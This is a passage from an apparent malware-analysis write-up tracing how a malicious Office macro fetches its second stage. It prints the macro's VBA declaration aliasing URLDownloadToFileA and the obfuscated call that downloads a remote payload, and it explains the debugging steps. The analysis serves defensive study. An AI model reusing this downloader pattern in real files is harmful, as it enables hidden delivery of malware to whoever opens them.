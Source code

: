 ![Debugger](/img/debugger.png)

## Understanding the Code

It was from here I was able to set breakpoints on several interesting functions, additionally watching variables as they change over time to see where the decoding was happening. I won't bore you with the details too much, so I'll try to make it quick.

I started with looking at where execution ends.  Execution ends when the binary is able to successfully reach out to the internet and grab it's second stage. To do that we know from `olevba` that it has to called *URLDownloadFileA*.

```VB
'Declaring the URLDownloadToFileA structures
#If VBA7 And Win64 Then        'Executes if Win64wwwwwwwww
    Private Declare PtrSafe Function P_Click_Box Lib "urlmon" _
      Alias "URLDownloadToFileA" ( _
        ByVal pCaller As LongPtr, _
        ByVal szURL As String, _
        ByVal szFileName As String, _
        ByVal dwReserved As LongPtr, _
        ByVal lpfnCB As LongPtr _
      ) As Long
#Else
    Private Declare Function P_Click_Box Lib "urlmon" _
      Alias "URLDownloadToFileA" ( _
        ByVal pCaller As Long, _
        ByVal szURL As String, _
        ByVal szFileName As String, _
        ByVal dwReserved As Long, _
        ByVal lpfnCB As Long _
      ) As Long
#End If
```
Here we can see the setup of call, along with all of the different variable types that it accepts.  Since my goal is to identify the potential URL domains, we'll focus on tracking down the `szURL` parameter.

Now that it's referred to as *P_Click_Box*, a simple Ctrl+F will bring us to the next reference.

```vb
'calling of URLDownloadToFileA =============================================
P_Click_Box 0, homedep(Split(kij(0), redline(Oa))), directoo & "\" & fillename, 0, 0
                    'szURL      'expression 'delimiter              'szfilename 
```

The obfuscation begins!  Clearly all of the arguments passed into the `URLDownloadToFileA` function are obfuscated behind multiple different functions that ultimately end up delivering the argument's it's expecting.

If we go ahead and skip ahead through execution and set a breakpoint on the `homedep()` function, we can inspect the return contents to see the URL it ends up producing.

![Produced URL](/img/produced_url.png)
